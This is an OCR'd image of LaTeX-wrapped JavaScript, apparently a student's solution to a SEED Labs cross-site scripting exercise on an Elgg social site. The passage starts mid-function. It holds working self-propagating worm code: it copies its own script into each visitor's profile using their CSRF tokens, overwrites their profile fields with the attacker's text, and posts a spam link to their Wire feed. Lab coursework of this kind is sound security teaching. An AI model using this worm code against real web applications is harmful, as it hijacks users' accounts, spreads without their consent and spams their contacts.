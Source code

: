\documentclass[12pt]{article}
\begin{document}
\begin{verbatim}
        // Second part: Modify the visitor's profile
	    var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
	    var jsCode = document.getElementById("worm").innerHTML;
	    var tailTag = "</" + "script>";
	    var wormCode = headerTag + jsCode + tailTag;
        var sendurl = "/action/profile/edit";
        var formData = new FormData();
        formData.append('__elgg_token', token);
        formData.append('__elgg_ts', ts);
        formData.append('name', userName);
        formData.append('description', wormCode);
        formData.append('accesslevel[description]', '1');
        formData.append('briefdescription', 'I am Samy, the worm. Catch me if you can.');
        formData.append('accesslevel[briefdescription]', '1');
        formData.append('location', 'Pyongyang');
        formData.append('accesslevel[location]', '1');
        formData.append('interests', 'Hacking, XSS, Worms, CSRF, and so on.');
        formData.append('accesslevel[interests]', '1');
        formData.append('skills', 'I can write a worm in 5 minutes. Can you?');
        formData.append('accesslevel[skills]', '1');
        formData.append('contactemail', 'catchmeifyoucan@yahoo.com');
        formData.append('accesslevel[contactemail]', '1');
        formData.append('phone', '9557134');
        formData.append('accesslevel[phone]', '1');
        formData.append('mobile', '01234567890');
        formData.append('accesslevel[mobile]', '1');
        formData.append('website', 'www.samy-worm.com');
        formData.append('accesslevel[website]', '1');
        formData.append('twitter', 'elonmusk');
        formData.append('accesslevel[twitter]', '1');
        formData.append('guid', guid);
        var Ajax2 = new XMLHttpRequest();
        Ajax2.open("POST", sendurl, true);
        Ajax2.setRequestHeader("Host", "www.seed-server.com");
        Ajax2.send(formData);

        // Third Part: Post the profile link of the visitor on Wire
        var sendurl = "/action/thewire/add";
        var postBody = "To earn 12 USD/Hour(!), visit now\nhttp://www.seed-server.com/profile/" + userName;
        var formData = new FormData();
        formData.append('__elgg_token', token);
        formData.append('__elgg_ts', ts);
        formData.append('body', postBody);
        var Ajax3 = new XMLHttpRequest();
        Ajax3.open("POST", sendurl, true);
        Ajax3.setRequestHeader("Host", "www.seed-server.com");
        Ajax3.send(formData);
	}
</script>
\end{verbatim}
\end{document}
